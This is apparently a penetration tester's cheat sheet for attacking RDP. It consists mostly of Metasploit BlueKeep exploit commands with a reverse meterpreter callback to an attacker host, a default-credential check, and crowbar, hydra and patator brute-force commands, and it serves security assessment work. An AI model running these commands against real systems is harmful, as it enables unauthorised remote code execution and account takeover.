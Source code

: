 # RDP

## 01 - CVE

### 1.1 - BlueKeep RCE

TODO: Fill this info

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > options

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set targets <target>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rdp_client_ip <fake_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts <target_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lhost <attacker_IP>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set lport <attacker_PORT>

msf exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > run
```

## 02 - Default Credentials

Check some common and leaked credentials performing a password dictionary attack against and RDP service with impacket

```
$ rdp_check.py [<domain>/]<username>@<IP>
```

## 03 - Brute Force

> [!WARNING] Proceed with Caution!
> Sometimes RDP servers are configured with **Account Lockout Policy** so be careful what you're doing.

### 3.1 - Crowbar

```
$ crowbar -b rdp -s <IP> -u <username> -C passwords.lst -n 1

$ crowbar -b rdp -U users.lst -C passwords.lst -s <IP>/32
```

### 3.2 - Hydra

```
$ hydra -V -l <username> -p <password> rdp://<IP>/<domain>

$ hydra -V -l <username> -P passwords.txt <IP> rdp
```

### 3.3 - Patator

```
$ patator rdp login host=<IP> user=<username> password=FILE0 0=passwords.lst -x ignore:fgrep='ERRCONNECT_LOGON_FAILURE'
```

### 3.4 - Impacket

```
$ rdp_check.py [<domain>/]"<username>":"<password>"@<IP>
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/Remote Services/Graphical Remote Program/RDP|Active Fingerprinting: RDP]]

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xF - Remote Services Exploitation/Network Ports/Graphical Remote Program/RDP/FreeRDP|Remote Services Exploitation: RDP]]

### Rapid7

- [Rapid7: Metasploit Framework - Bluekeep Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.md)

### Sploitify

- [Sploitify: Bluekeep CVE-2019-0708](https://sploitify.haxx.it/exploits/2019/CVE-2019-0708/)